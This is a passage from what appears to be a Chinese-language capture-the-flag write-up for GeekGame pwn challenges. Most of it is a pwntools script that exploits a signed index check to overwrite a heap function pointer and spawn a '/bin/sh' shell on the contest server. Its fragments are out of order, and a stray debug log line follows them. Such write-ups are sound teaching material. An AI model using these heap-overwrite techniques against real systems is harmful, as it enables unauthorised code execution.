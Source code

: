 ```python
            break
        except Exception as e:
            break
    return output.decode()

while True:
    print(read_until_timeout(p, 1.0), end='')
    i = input()
    p.sendline(i.encode())

```

触发 backdoor 后便拿到了 shell，`ls` 后发现 flag 就存在当前目录，`cat flag` 就得到了 flag.

Level 2 的数据在堆上，但题目贴心地把一些函数指针（原本为 edit 函数）存在了堆上，并且用户可以控制程序调用这些函数。这里的内存漏洞也很明显：编辑数据检查 index 大小的时候进行的是有符号比较，输入一个负数可以通过检查。在本地调试可以看到堆上的结构，从而知道要覆盖的函数指针的偏移量。完整脚本如下：

```python
from pwn import *
p = process(['nc', 'prob13.geekgame.pku.edu.cn', '10013'])
p.recvuntil(b'your token:')
p.sendline(b'... my token ...')

# insert 1
p.recvuntil(b'>>')
p.sendline(b'1')
p.recvuntil(b'the node key:')
p.sendline(b'1')
p.recvuntil(b'the size of the data:')
p.sendline(b'8')
p.recvuntil(b'the data:')
p.sendline(b'/bin/sh\0')

# insert 2
p.recvuntil(b'>>')
p.sendline(b'1')
p.recvuntil(b'the node key:')
p.sendline(b'2')
p.recvuntil(b'the size of the data:')
p.sendline(b'1')
p.recvuntil(b'the data:')
p.sendline(b'\0')

# edit 2, 修改函数
p.recvuntil(b'>>')
p.sendline(b'3')
p.recvuntil(b'the key of the node you want to edit:')
p.sendline(b'2')
p.recvuntil(b'the index of the data you want to edit:')
p.sendline(b'-104')
p.recvuntil(b'the new data:')
p.sendline(0x4010e0.to_bytes(8, 'little'))

# edit 1, 触发漏洞
p.recvuntil(b'>>')
p.sendline(b'3')
p.recvuntil(b'the key of the node you want to edit:')
p.sendline(b'1')

def read_until_timeout(proc, timeout=1.0):
    output = b""
    proc.timeout = timeout
    while True:
        try:
```

[2024:09:30:17:14:29]: Debug: --begin keyboard packet--